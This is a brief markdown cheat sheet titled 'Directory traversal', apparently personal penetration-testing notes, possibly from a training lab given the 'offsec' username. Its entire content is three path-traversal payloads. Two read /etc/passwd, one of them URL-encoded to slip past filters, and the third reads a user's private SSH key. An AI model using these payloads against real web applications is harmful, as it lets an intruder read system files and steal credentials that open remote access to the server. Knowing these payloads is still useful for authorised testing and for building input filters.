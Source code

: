 # Directory traversal

```
../../../../../../../../../etc/passwd
```

```
../../../../../../../../../home/offsec/.ssh/id_rsa
```

```
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

